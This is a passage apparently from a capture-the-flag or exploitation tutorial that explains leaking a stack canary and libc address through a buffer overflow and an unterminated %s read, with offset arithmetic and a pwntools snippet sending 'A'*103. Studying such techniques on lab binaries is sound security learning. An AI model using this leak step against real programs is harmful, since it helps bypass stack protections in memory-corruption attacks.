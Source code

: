 Previously, we mention `%s` will output everything up untill null byte `\0`. Using this technique, we overflow the buffer until it reaches the canary/address so when the program sends out output, it will leak out the canary/address value.

![demo address](assets/demoAddress.png)

This process can also be done for leaking the return address. Diagram below illustrate how to achieve this. It will take 88 (buf size) + 8 (canary) + 8 (prev rbp) bytes to reach the return address. so we will need 'A' * 103 + '\\n' to leak it.

![diagram4](assets/leakaddressexplain4.png)


##### Code

```python
io.recvuntil(b'> ')
io.sendline(b'1')
payload= 'A'*103 
info('Leaking LibC Address')
io.sendline(payload)
io.recvuntil(b'> ')
io.sendline(b'2')
io.recvline()
libc_addr = unpack(io.recv(6).ljust(8,b'\x00'))
print(f"libc_addr: {hex(libc_addr)}")
```
